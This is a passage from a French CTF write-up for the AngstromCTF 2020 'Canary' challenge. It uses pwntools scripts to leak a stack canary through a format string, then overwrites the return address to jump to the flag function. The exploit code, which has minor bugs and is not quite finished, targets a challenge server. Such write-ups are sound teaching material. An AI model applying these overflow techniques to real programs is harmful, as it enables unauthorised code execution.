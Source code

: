 La cannary est donc à 7*8 = 56 bytes.

Afin de s'assurer que tout fonctionne bien, essayons de causer un overflow sans toucher au canary:
```python
from pwn import *
conn = remote("shell.actf.co" 20701)

pad = "A" * 56
f_string = "%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx"

conn.sendline(f_string)
leak = conn.recvuntil("Anything")
canary = str(leak).split("nice to meet you, ")[1].split("!")[0].split("-")[-1]
print("[+] Canary found: " + canary)
canary_little_indian = p64(int(canary, 16))
payload = pad + canary

conn.sendline(payload)
conn.interactive()
```

Parfais, le programme segfault en outrepassant le canary:

![devoops-E](/img/Angstrom2020/Canary/canary5.png){:class="img-responsive"}

En observant l'état de la stack, il manque 8 bytes à notre payload : les 8 bytes servant d'adresse de retours lorsque la fonction permettant d'obtenir le flag retournera au main. Cette adresse n'a pas besoin d'exister, le programme se fermera avec un segfault, mais ce ne sera plus notre problème.

Enfin, les 8 bytes suivants vont écraser le contenu du registre RIP, et nous permettre de rediriger le code vers la fonction_flag_.

Cette fonction est située à l'adresse 0x0000000000407087:

![devoops-E](/img/Angstrom2020/Canary/canary6.png){:class="img-responsive"}

L'exploit final peut désormais être écrit:
```python
from pwn import *
conn = remote("shell.actf.co" 20701)

pad = "A" * 56
f_string = "%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx"
payload = ""

conn.sendline(f_string)
leak = conn.recvuntil("Anything")
canary = str(leak).split("nice to meet you, ")[1].split("!")[0].split("-")[-1]
print("[+] Canary found: " + canary)
canary_little_indian = p64(int(canary, 16))
junk = "BBBBBBBB"
flag_func = "\x87\x07\x40\x00\x00\x00\x00\x00"

payload += pad
payload += canary_little_indian
payload += junk
payload += flag_func

```